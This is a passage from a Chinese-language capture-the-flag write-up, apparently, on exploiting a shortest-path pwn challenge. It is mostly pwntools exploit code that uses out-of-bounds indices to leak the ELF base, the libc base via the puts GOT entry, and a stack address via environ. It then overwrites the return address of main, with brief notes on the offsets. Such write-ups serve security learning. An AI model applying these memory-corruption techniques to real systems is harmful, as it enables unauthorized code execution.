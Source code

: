 ```python
s.recvuntil(b'how many nodes?\n>> ')
s.sendline(b'2')
s.recvuntil(b'how many edges?\n>> ')
s.sendline(b'0')
s.recvuntil(b'you want to start from which node?\n>> ')
s.sendline(b'0')
s.recvuntil(b'>> ')
s.sendline(b'-2275')

s.recvuntil(b'the length of the shortest path is ')
elf_base = int(s.recv(15), 10) - 0x7008
success('elf_base=>' + hex(elf_base))

s.recvuntil(b'how many nodes?\n>> ')
s.sendline(b'2')
s.recvuntil(b'how many edges?\n>> ')
s.sendline(b'0')
s.recvuntil(b'you want to start from which node?\n>> ')
s.sendline(b'0')
s.recvuntil(b'>> ')
payload = bytes(str((elf.got['puts'] - elf.sym['dist']) // 8).encode('UTF-8'))
s.sendline(payload)

s.recvuntil(b'the length of the shortest path is ')
libc_base = int(s.recv(15), 10) - libc.sym['puts']
success('libc_base=>' + hex(libc_base))
```

> 这里的-2275 和 0x7008 就是直接观察静态随便找的，但是我也不知道是不是什么默契还是必要，很多人的 wp 中都选择了这个地址（我换了几个地址似乎也可以哈）

这样即可做到任意地址读了，接下来就得思考如何写。

通过 add 函数我们是可以做到写的，但是我们还需要知道 main 函数返回地址在栈上的位置。

这里给出一个[通过 environ 泄露栈](https://blog.csdn.net/chennbnbnb/article/details/104035261)的方法，也就是说，我们只要泄露出来\_environ，即可通过 gdb 算出距离 rbp+8 的偏移

这里直接贴上官方 exp 中的写法:

```python
# get environ (stack addr)
# environ 所在的地址与栈帧中存储 main 函数返回地址的位置的偏移是 0x100
sh.sendlineafter("nodes?\n>> ", str(1))
sh.sendlineafter("edges?\n>> ", str(0))
sh.sendlineafter("node?\n>> ", str(0))
sh.sendlineafter("to ?\n>> ", str((libc_base + 0x1EF2E0 - proc_base -
elf.sym["dist"]) / 8))
sh.recvuntil("path is ")
environ_addr = int(sh.recvuntil("\n", drop = True), base = 10)
log.success("environ_addr: " + hex(environ_addr))
index_to_ret = (environ_addr - 0x100 - (proc_base + elf.sym["dist"])) / 8
sh.sendlineafter("nodes?\n>> ", str(2))
sh.sendlineafter("edges?\n>> ", str(1))
sh.sendlineafter("format\n", "0 " + str(index_to_ret) + " " + str(proc_base +
0x16AA))
```
